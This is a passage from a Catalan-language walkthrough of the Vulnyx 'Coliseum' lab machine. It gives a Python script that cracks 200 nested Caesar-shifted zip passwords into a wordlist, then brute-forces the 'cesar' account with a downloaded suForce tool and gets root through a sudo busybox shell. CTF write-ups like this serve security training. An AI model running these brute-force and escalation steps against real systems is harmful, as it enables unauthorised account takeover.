shift=11 -> jf1am6w5ae  [fail]
shift=12 -> ie09l5v49d  [fail]
shift=13 -> hdz8k4u38c  [OK]

[+] ¡Contraseña válida encontrada!
    Password : hdz8k4u38c
    Shift    : 13

Ahora puedes usarla, por ejemplo:
    unzip -P hdz8k4u38c cesar_I.zip
                                                                                                 
┌──(kali㉿kali)-[~/CTFs/Vulnyx/Coliseum]
└─$ unzip -P hdz8k4u38c cesar_I.zip
Archive:  cesar_I.zip
  inflating: pista.txt               
 extracting: cesar_II.zip            
                                                                                                 
┌──(kali㉿kali)-[~/CTFs/Vulnyx/Coliseum]
└─$ cat pista.txt       
Gladiator, you have entered chamber I of the Coliseum.

The next iron gate is locked with a secret that Caesar himself ordered to
be twisted — each symbol shifted along an unseen line of characters.

All that remains of the original key is this distorted inscription:

KEY_FOR_CAESAR: cvwbdaangl
```

En descomprimir el primer fitxer zip, observem que conté un nou zip protegit per una contrasenya xifrada novament amb el mètode Cèsar, la pista del qual es troba en un fitxer de text. Si repetim el procés de desxifrat, obtenim successivament més fitxers zip niats sota el mateix mecanisme. Per tant, resulta convenient desenvolupar un script que automatitzi el desxifrat i extracció de tots els zips fins accedir al contingut final.

Podem observar que els fitxers de text extrets en cada pas tenen el nom `pista.txt`, mentre que els fitxers zip segueixen una nomenclatura basada en números romans: `cesar_I.zip`, `cesar_II.zip`, etc. Aquesta forma de numeració és similar a la utilitzada anteriorment al repte de l'IDOR.

Seria útil (i, de fet, el creem amb ajuda d'IA) crear un script que automatitzi el procés de desxifrar i extreure tots els fitxers zip niats, fins obtenir el contingut final.

**solve_cesar_chain_unzip.py**

```python
#!/usr/bin/env python3

import sys
import re
import string
import subprocess
import os
import shutil

ALPHABET = string.ascii_lowercase + string.digits
KEY_PREFIX = "KEY_FOR_CAESAR:"


def caesar(text, shift):
    """Aplica un desplazamiento tipo César sobre ALPHABET (a-z0-9)."""
    res = []
    n = len(ALPHABET)
    for ch in text:
        if ch in ALPHABET:
            idx = ALPHABET.index(ch)
            res.append(ALPHABET[(idx + shift) % n])
        else:
            res.append(ch)
    return "".join(res)


def extract_key_from_file(path):
    """Busca la línea KEY_FOR_CAESAR: ... y devuelve el valor."""
    if not os.path.exists(path):
        return None

    with open(path, "r", encoding="utf-8", errors="ignore") as f:
        for line in f:
            if KEY_PREFIX in line:
                m = re.search(rf"{KEY_PREFIX}\s*(\S+)", line)
                if m:
                    return m.group(1).strip()
    return None


def test_zip_password(zip_path, password):
    """
    Prueba la contraseña contra el ZIP usando 'unzip -t' (solo test, no extrae).
    Devuelve True si la contraseña es correcta.
    """
    result = subprocess.run(
        ["unzip", "-t", "-P", password, zip_path],
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
    return result.returncode == 0


def extract_zip(zip_path, password, out_dir):
    """Extrae el ZIP completo a out_dir usando 'unzip -P'."""
    if os.path.exists(out_dir):
        shutil.rmtree(out_dir)
    os.makedirs(out_dir)

    result = subprocess.run(
        ["unzip", "-qq", "-P", password, zip_path, "-d", out_dir],
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
    if result.returncode != 0:
        raise RuntimeError(f"Error al extraer {zip_path} con la contraseña dada")


def brute_force_zip_password(zip_path, twisted_text):
    """
    Dado un ZIP y el texto 'retorcido' de su contraseña,
    prueba todos los desplazamientos posibles del “César”
    devolviendo (password_en_claro, shift_encontrado).
    """
    for shift in range(len(ALPHABET)):
        candidate = caesar(twisted_text, -shift)  # deshacer la torsión
        if test_zip_password(zip_path, candidate):
            return candidate, shift

    raise RuntimeError(f"No se encontró contraseña válida para {zip_path}")


def find_inner_zip(dir_path):
    """Devuelve la ruta del único ZIP dentro de dir_path, o None si no hay."""
    zips = []
    for entry in os.listdir(dir_path):
        if entry.lower().endswith(".zip"):
            zips.append(os.path.join(dir_path, entry))

    if not zips:
        return None
    # Asumimos uno solo; si hay más, cogemos el primero.
    return zips[0]


def main():
    # Uso:
    #   python3 solve_cesar_chain_unzip.py [zip_inicial] [hint_inicial]
    #
    # Por defecto:
    #   zip_inicial  -> cesar_I.zip
    #   hint_inicial -> initial_hint.txt
    base_dir = os.getcwd()
    initial_zip = sys.argv[1] if len(sys.argv) > 1 else "cesar_I.zip"
    initial_hint = sys.argv[2] if len(sys.argv) > 2 else "initial_hint.txt"

    initial_zip_path = os.path.join(base_dir, initial_zip)
    initial_hint_path = os.path.join(base_dir, initial_hint)

    if not os.path.exists(initial_zip_path):
        print(f"[!] No se encuentra el ZIP inicial: {initial_zip_path}")
        sys.exit(1)
    if not os.path.exists(initial_hint_path):
        print(f"[!] No se encuentra el fichero de pista inicial: {initial_hint_path}")
        sys.exit(1)

    twisted_for_current = extract_key_from_file(initial_hint_path)
    if not twisted_for_current:
        print(f"[!] No se encontró '{KEY_PREFIX}' en {initial_hint_path}")
        sys.exit(1)

    current_zip = initial_zip_path
    level = 1
    used_passwords = []

    work_root = os.path.join(base_dir, "extracted_levels_unzip")
    if os.path.exists(work_root):
        shutil.rmtree(work_root)
    os.makedirs(work_root)

    # Para mostrar al final el contenido del último pista.txt
    last_note_path = None

    print(f"[+] Empezando cadena desde: {initial_zip}")
    print(f"[+] Usando pista inicial  : {initial_hint}\n")

    while True:
        level_dir = os.path.join(work_root, f"level_{level:03d}")
        print(f"[+] Resolviendo nivel {level} → {os.path.basename(current_zip)}")

        # 1) Fuerza bruta de la contraseña de este ZIP
        try:
            password, shift = brute_force_zip_password(current_zip, twisted_for_current)
        except Exception as e:
            print(f"[!] Error haciendo fuerza bruta en {current_zip}: {e}")
            break

        used_passwords.append(password)
        print(f"    - Contraseña encontrada: '{password}' (shift {shift})")

        # 2) Extraer el ZIP con la contraseña correcta
        try:
            extract_zip(current_zip, password, level_dir)
        except Exception as e:
            print(f"[!] Error extrayendo {current_zip}: {e}")
            break

        # 3) Leer la siguiente pista (si existe)
        pista_path = os.path.join(level_dir, "pista.txt")
        last_note_path = pista_path  # lo vamos actualizando en cada nivel

        twisted_next = extract_key_from_file(pista_path)

        # 4) Buscar el ZIP interno (siguiente nivel)
        inner_zip_path = find_inner_zip(level_dir)

        if not twisted_next or not inner_zip_path:
            print("\n[+] No se ha encontrado más KEY_FOR_CAESAR o ningún ZIP interno.")
            print("    Probablemente este sea el último nivel.\n")
            break

        # Preparar siguiente vuelta
        twisted_for_current = twisted_next
        current_zip = inner_zip_path
        level += 1

    # 5) Guardar wordlist con todas las contraseñas usadas
    wordlist_path = os.path.join(base_dir, "wordlist_from_chain.txt")
    with open(wordlist_path, "w", encoding="utf-8") as f:
        for pw in used_passwords:
            f.write(pw + "\n")

    print("=== Cadena completada (o último nivel alcanzado) ===")
    print(f"Niveles resueltos : {len(used_passwords)}")
    print(f"Wordlist guardada : {wordlist_path}")


    # 6) Mostrar contenido del último pista.txt
    if last_note_path and os.path.exists(last_note_path):
        print("\n=== Contenido del último pista.txt ===\n")
        try:
            with open(last_note_path, "r", encoding="utf-8", errors="ignore") as f:
                print(f.read())
        except Exception as e:
            print(f"[!] No se pudo leer el último pista.txt: {e}")
    else:
        print("\n[!] No se encontró el último pista.txt para mostrar su contenido.")


if __name__ == "__main__":
    main()

```

Executem el script i obtenim la pista final:

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/Coliseum]
└─$ python3 ./solve_cesar_chain_unzip.py 
[+] Empezando cadena desde: cesar_I.zip
[+] Usando pista inicial  : initial_hint.txt

[+] Resolviendo nivel 1 → cesar_I.zip
    - Contraseña encontrada: 'hdz8k4u38c' (shift 13)
[+] Resolviendo nivel 2 → cesar_II.zip
    - Contraseña encontrada: '5op4633g9e' (shift 7)
[+] Resolviendo nivel 3 → cesar_III.zip
    - Contraseña encontrada: 'k7mt1gzj8c' (shift 14)
[+] Resolviendo nivel 4 → cesar_IV.zip
...
...
...
[+] Resolviendo nivel 199 → cesar_CXCIX.zip
    - Contraseña encontrada: 'osw0h20m1o' (shift 18)
[+] Resolviendo nivel 200 → cesar_CC.zip
    - Contraseña encontrada: 'us89w37de4' (shift 25)

[+] No se ha encontrado más KEY_FOR_CAESAR o ningún ZIP interno.
    Probablemente este sea el último nivel.

=== Cadena completada (o último nivel alcanzado) ===
Niveles resueltos : 200
Wordlist guardada : /home/kali/CTFs/Vulnyx/Coliseum/wordlist_from_chain.txt

=== Contenido del último pista.txt ===

You have reached the final chamber of the Coliseum (Level CC).

Every key you used to open these sealed scrolls was valid for its own gate.
But here, on this system, there is a gladiator account named 'cesar'.

Exactly ONE of the keys you have used along the way is also the password
for that 'cesar' account.

Gather all of your keys into a single wordlist and try them against
the 'cesar' user.

```

Tal com s'indica al missatge final, una de les contrasenyes utilitzades per obrir els diferents fitxers zip és també la de l'usuari `cesar`. Encara que ja tenim accés a una consola com aquest usuari i fins i tot accés SSH, desconeixem la seva contrasenya real.

Per això, és imprescindible comptar amb un diccionari que contingui totes les contrasenyes desxifrades durant el procés. Si el teu script no desa automàticament totes les passwords en un fitxer després de treure l'última pista, hauries de modificar-lo perquè ho faci (per exemple, generant un fitxer `wordlist_from_chain.txt` amb totes elles recopilades).


### Força bruta per obtenir la contrasenya de cesar

Quan ja disposes de la wordlist generada (per exemple, `wordlist_from_chain.txt`), només has de transferir-la a la màquina víctima i utilitzar l'eina `suForce` per realitzar la força bruta sobre l'usuari `cesar` i esbrinar la seva contrasenya real. Recorda que `suForce` és una utilitat desenvolupada per `d4t4s3c`, el creador de la plataforma de la màquina. 

```bash
scp -i ~/.ssh/id_ed25519 /home/kali/CTFs/Vulnyx/Coliseum/wordlist_from_chain.txt cesar@192.168.1.113:~
```

Per realitzar la força bruta sobre el compte `cesar`, es recomana usar `suForce`. Si la màquina víctima no té accés a internet, baixa'l a la teva màquina atacant i transfereix-lo igual que la wordlist.

A la víctima:

```bash
cesar@coliseum:~$ wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce"
cesar@coliseum:~$ chmod +x suForce
cesar@coliseum:~$ ./suForce -u cesar -w wordlist_from_chain.txt 
            _____                          
 ___ _   _ |  ___|__  _ __ ___ ___   
/ __| | | || |_ / _ \| '__/ __/ _ \ 
\__ \ |_| ||  _| (_) | | | (_|  __/  
|___/\__,_||_|  \___/|_|  \___\___|  
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
🎯 Username | cesar
📖 Wordlist | wordlist_from_chain.txt
🔎 Status   | 175/200/87%/XXXXXXXX
💥 Password | XXXXXXXX
───────────────────────────────────
```

Quan aparegui el camp `💥 Password`, hauràs trobat la contrasenya vàlida de `cesar`.

### Privilegis sudo de l'usuari `cesar` i escalada a root

Un cop descobrim la contrasenya de l'usuari `cesar`, és fonamental investigar quines accions privilegiades pot realitzar mitjançant `sudo`, ja que això podria permetre'ns escalar privilegis fins a root.

Per veure els permisos atorgats a través de `sudo`, executa la següent comanda:

```bash
cesar@coliseum:~$ sudo -l
[sudo] contraseña para cesar: 
Matching Defaults entries for cesar on coliseum:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User cesar may run the following commands on coliseum:
    (root) /usr/bin/busybox
```

Això significa que l'usuari `cesar` té permès executar `/usr/bin/busybox` com root mitjançant `sudo`, però ha de proporcionar la seva pròpia contrasenya per poder-ho fer. `BusyBox` és una utilitat polivalent que agrupa moltes eines d'Unix sota un únic binari, incloent una shell pròpia.

**Escalada de privilegis usant BusyBox:**

Per obtenir una shell com root, simplement executa:

```bash
sudo busybox sh
```

Això ens donarà una shell amb privilegis d'administrador (root), sense necessitat de conèixer la contrasenya de root del sistema.

Un cop a la shell de root, ja pots accedir a qualsevol fitxer protegit, incloent la flag final:

```bash
cat /root/root.txt
```

D'aquesta manera, completem l'escalat de privilegis i resolem la màquina aprofitant la configuració de sudo cap a BusyBox. 

Amb això conclou l'anàlisi de la màquina **Coliseum** de Vulnyx. Espero que tant les explicacions com els scripts proporcionats hagin resultat útils i clars.

Ens veiem al proper repte!

